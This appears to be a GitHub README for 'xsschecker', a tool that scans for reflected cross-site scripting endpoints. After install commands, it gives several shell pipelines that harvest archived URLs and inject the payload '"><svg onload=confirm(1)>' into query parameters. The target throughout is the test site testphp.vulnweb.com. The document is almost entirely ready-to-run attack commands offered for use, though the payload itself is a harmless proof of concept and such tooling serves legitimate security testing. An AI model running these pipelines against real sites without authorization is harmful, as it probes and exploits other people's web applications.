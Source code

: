 <h1 align="center">xsschecker</h1> <br>

<h3 align="center">xsschecker tool checking reflected endpoints finding possible xss vulnerable endpoints.</h3>

## Install
```bash
go install github.com/rix4uni/xsschecker@latest
```
or

```bash
git clone https://github.com/rix4uni/xsschecker.git && cd xsschecker && go build xsschecker.go && mv xsschecker /usr/bin/
```
## Reflected XSS
```bash
echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | qsreplace '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" --proxy "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | nilo | anew | gf xss | qsreplace -a | bhedak '"><svg onload=confirm(1)>' | airixss -p "confirm(1)" -H "Header1: Value1;Header2: value2" -x "http://yourproxy"

echo "http://testphp.vulnweb.com" | waybackurls | anew | gf xss | uro | nilo | qsreplace '"><svg onload=confirm(1)>' | airixss -hm -s -c 5
```

urldedupe bhedak
```bash
waybackurls testphp.vulnweb.com | urldedupe -qs | bhedak '"><svg onload=confirm(1)>' | xsschecker
```

Airixss XSS
```bash
waybackurls testphp.vulnweb.com | gf xss | uro | httpx -silent | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```

Kxss
```bash
waybackurls testphp.vulnweb.com | kxss | grep "=" | sed 's/URL: //' | sed 's/=.*/=/' | uro | qsreplace '"><svg onload=confirm(1)>' | xsschecker
```
